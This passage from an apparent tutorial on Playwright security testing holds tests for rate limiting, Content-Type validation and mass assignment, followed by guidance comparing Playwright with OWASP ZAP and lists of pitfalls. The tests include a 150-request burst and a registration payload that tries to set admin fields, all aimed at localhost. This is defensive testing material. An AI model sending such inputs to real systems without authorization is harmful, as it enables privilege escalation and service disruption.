
    const requests: Promise<any>[] = [];
    // => Array to collect concurrent request promises

    for (let i = 0; i < 150; i++) {
      // => Sends 150 rapid requests
      // => Exceeds typical rate limits (50-100 req/min)

      requests.push(
        request.get(endpoint, {
          params: { q: "test" },
          // => Query parameter for search
        }),
      );
    }

    const responses = await Promise.all(requests);
    // => Waits for ALL requests to complete
    // => Tests concurrent request handling

    const rateLimitedResponses = responses.filter((r) => r.status() === 429);
    // => Counts 429 Too Many Requests responses
    // => HTTP 429 standard rate limit status code

    expect(rateLimitedResponses.length).toBeGreaterThan(0);
    // => Confirms rate limiting active
    // => At least SOME requests should hit limit

    const rateLimitResponse = rateLimitedResponses[0];
    // => Inspects first rate-limited response

    const headers = rateLimitResponse.headers();
    // => Retrieves response headers

    expect(headers["retry-after"]).toBeDefined();
    // => Verifies Retry-After header present
    // => Tells client when to retry (seconds or HTTP date)

    expect(headers["x-ratelimit-limit"]).toBeDefined();
    // => Verifies rate limit configuration exposed
    // => X-RateLimit-Limit: maximum requests allowed

    expect(headers["x-ratelimit-remaining"]).toBeDefined();
    // => Verifies remaining quota exposed
    // => X-RateLimit-Remaining: requests left in window

    expect(headers["x-ratelimit-reset"]).toBeDefined();
    // => Verifies reset timestamp exposed
    // => X-RateLimit-Reset: when quota resets (Unix timestamp)
  });

  test("API validates Content-Type header", async ({ request }) => {
    // => Tests Content-Type validation
    // => Prevents MIME confusion attacks

    const response = await request.post("http://localhost:3000/api/posts", {
      // => Sends POST request with mismatched content type

      headers: {
        "Content-Type": "text/plain",
        // => Declares text/plain content type
      },

      data: JSON.stringify({ title: "Test", body: "Content" }),
      // => Actually sends JSON payload
      // => Content-Type header disagrees with actual data
    });

    expect(response.status()).toBe(415);
    // => Verifies 415 Unsupported Media Type returned
    // => Server rejects mismatched Content-Type
    // => Prevents content-type confusion vulnerabilities

    const body = await response.json();

    expect(body.error).toMatch(/content-type.*json/i);
    // => Confirms error message specifies expected type
    // => Helps API consumers correct their requests
  });

  test("API prevents mass assignment vulnerabilities", async ({ request }) => {
    // => Tests protection against mass assignment
    // => Mass assignment: attacker sets unexpected fields (role, isAdmin, etc)

    const response = await request.post("http://localhost:3000/api/users/register", {
      headers: {
        "Content-Type": "application/json",
      },

      data: {
        username: "newuser",
        password: "password123",
        email: "user@example.com",

        // Attempt to mass-assign privileged fields
        role: "admin",
        // => Attempts to set admin role during registration
        // => Should be ignored or rejected by server

        isAdmin: true,
        // => Alternative admin flag attempt

        isVerified: true,
        // => Attempts to bypass email verification
      },
    });

    expect(response.status()).toBe(201);
    // => Registration succeeds (account created)
    // => Server processes request despite extra fields

    const body = await response.json();

    // Verify privileged fields NOT set
    expect(body.role).not.toBe("admin");
    // => Confirms role NOT set to admin
    // => Should default to 'user' or similar

    expect(body.isAdmin).not.toBe(true);
    // => Confirms isAdmin flag NOT set

    expect(body.isVerified).not.toBe(true);
    // => Confirms verification NOT bypassed

    expect(body.role).toBe("user");
    // => Verifies safe default role applied
    // => Server ignored malicious fields
  });
});
```

## Trade-offs and When to Use

**Standard Playwright Security Testing**:

- **Use when**: Initial security testing during development; simple XSS/SQL injection checks; no dedicated security tools available
- **Benefits**: Zero external dependencies; fast test execution (seconds); tests tie directly to application UI/workflow; low learning curve for developers already using Playwright
- **Costs**: Manual vulnerability payload management; limited coverage (only tests you explicitly write); no CVE mapping or compliance reporting; requires security expertise to identify attack vectors

**Production Framework (OWASP ZAP Integration)**:

- **Use when**: Pre-deployment security validation; regulatory compliance requirements (PCI-DSS, HIPAA); comprehensive security scanning across entire application; CI/CD security gates
- **Benefits**: 50+ automated vulnerability checks (XSS, SQLi, CSRF, XXE, etc); CVE mapping for known vulnerabilities; compliance reporting (OWASP Top 10, PCI-DSS); reduces need for deep security expertise
- **Costs**: External ZAP dependency (Docker container or local installation); longer test execution (minutes per scan); higher resource usage (proxy overhead); requires ZAP configuration knowledge; potential false positives requiring triage

**Production recommendation**: Use BOTH approaches. Playwright security tests provide fast feedback during development (catch regressions immediately), while ZAP integration provides comprehensive pre-deployment scanning (ensure nothing missed). Playwright tests run on every commit (1-2 minutes), ZAP scans run nightly or pre-release (10-30 minutes). This layered approach catches vulnerabilities early (Playwright) while ensuring comprehensive coverage (ZAP), balancing speed with thoroughness for production security.

## Security Considerations

- **Test environment isolation**: Run security tests ONLY against test/staging environments (NEVER production); security tests attempt actual attacks that may trigger intrusion detection systems or corrupt production data
- **Secret management**: Store ZAP API keys in environment variables (`process.env.ZAP_API_KEY`); never hardcode credentials in test files; use different keys for local development vs CI/CD
- **False positive handling**: ZAP generates false positives; implement alert filtering by confidence level (High confidence only in CI); manually review Medium/Low confidence findings; maintain suppression list for known false positives
- **Rate limit testing considerations**: Rate limit tests may trigger actual rate limiting affecting other tests; run rate limit tests in isolated suites; use test-specific API keys with separate quotas; consider mocking rate limiter for unit tests
- **Authentication token security**: Use short-lived test tokens; rotate credentials regularly; avoid checking credentials into version control; use CI secrets for sensitive values
- **ZAP daemon security**: ZAP API key protects against unauthorized scan execution; change default API key immediately; restrict ZAP network access (localhost only or VPN); ZAP in daemon mode has no authentication UI
- **Compliance and legal considerations**: Obtain written authorization before security testing any system (even internal); security tests may violate computer misuse laws if run against unauthorized targets; coordinate with security team and legal before production-like environment testing

## Common Pitfalls

1. **Testing only happy path**: Security testing MUST test failure scenarios (invalid tokens, missing auth, malicious input); many vulnerabilities exist in error handling paths; verify application fails securely (no information leakage)
2. **Insufficient input validation coverage**: XSS has dozens of bypass techniques (SVG, iframe, javascript:, data:); test comprehensive payload list (OWASP XSS Filter Evasion Cheat Sheet); update payloads as new techniques discovered
3. **Ignoring false positives**: ZAP generates false positives; ignoring ALL low-confidence alerts may miss real vulnerabilities; manually triage findings; tune ZAP scan policies to reduce noise
4. **Missing authentication testing**: Authentication boundaries critical security control; test session fixation, concurrent sessions, token expiration, remember me functionality; validate HttpOnly, Secure, SameSite cookie attributes
5. **No security regression testing**: Security fixes must have corresponding tests; prevents re-introduction of vulnerabilities; treat security test failures as build blockers (same as functional tests)
6. **Inadequate error handling testing**: Security vulnerabilities often emerge in error paths; test invalid input, malformed requests, missing headers; verify errors don't leak sensitive information (stack traces, SQL queries, file paths)
7. **Not testing authorization boundaries**: Authentication (who you are) differs from authorization (what you can do); test horizontal privilege escalation (User A accessing User B's data); test vertical privilege escalation (user accessing admin functions); validate authorization at API layer (not just UI)
8. **Skipping HTTPS validation**: Test with HTTPS in staging/production configuration; validate TLS certificate configuration; test mixed content warnings; verify Secure cookie flag enforced
9. **No security test maintenance**: Attack techniques evolve (new XSS vectors, new injection techniques); update test payloads quarterly; subscribe to security mailing lists (OWASP, CVE alerts); review ZAP updates for new vulnerability checks
10. **Testing in production**: Security tests attempt real attacks; may corrupt data, trigger alarms, violate terms of service; ALWAYS test in isolated environments; obtain authorization before testing
